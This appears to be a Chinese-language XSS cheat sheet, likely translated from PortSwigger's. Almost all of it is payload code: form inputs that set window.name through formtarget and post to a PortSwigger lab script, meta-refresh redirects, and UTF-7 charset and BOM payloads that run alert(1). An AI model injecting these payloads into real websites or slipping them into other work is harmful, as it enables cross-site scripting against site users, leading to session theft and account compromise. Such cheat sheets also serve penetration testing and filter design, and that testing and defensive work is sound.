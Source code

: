 #### **通过 formtarget 属性在<中设置 window.name 输入>标签类型提交**

```
<form><input type=hidden name=x value="';eval(name)//"><input type=hidden name=context value=js_string_single><input type="submit" formaction="http://subdomain1.portswigger-labs.net/xss/xss.php" formtarget="alert(1)" value="XSS via formtarget in input type submit"></form>
```

#### **通过<输入>标签类型图片**中的 formtarget 属性设置 window.name

```
<form><input type=hidden name=x value="';eval(name)//"><input type=hidden name=context value=js_string_single><input name=1 type="image" src="validimage.png" formaction="http://subdomain1.portswigger-labs.net/xss/xss.php" formtarget="alert(1)" value="XSS via formtarget in input type image"></form>
```

现在，让我们继续探索用于 XSS 的各种特殊标签。

#### **重定向到不同的域**

```
<meta http-equiv="refresh" content="0; url=//portswigger-labs.net">
```

```
<meta charset="UTF-7" /> +ADw-script+AD4-alert(1)+ADw-/script+AD4-
```

```
<meta http-equiv="Content-Type" content="text/html; charset=UTF-7" /> +ADw-script+AD4-alert(1)+ADw-/script+AD4-
```

#### **UTF-7 BOM 字符(必须在文档的开头)1**

```
+/v8 +ADw-script+AD4-alert(1)+ADw-/script+AD4-
```

#### **UTF-7 BOM 字符(必须在文档的开头)2**

```
+/v9 +ADw-script+AD4-alert(1)+ADw-/script+AD4-
```

#### **UTF-7 BOM 字符(必须在文档的开头)3**

```
+/v+ +ADw-script+AD4-alert(1)+ADw-/script+AD4-
```

#### **UTF-7 BOM 字符(必须在文档的开头)4**

```
+/v/ +ADw-script+AD4-alert(1)+ADw-/script+AD4-
```

#### **升级不安全请求**

```
<meta http-equiv="Content-Security-Policy" content="upgrade-insecure-requests">
```
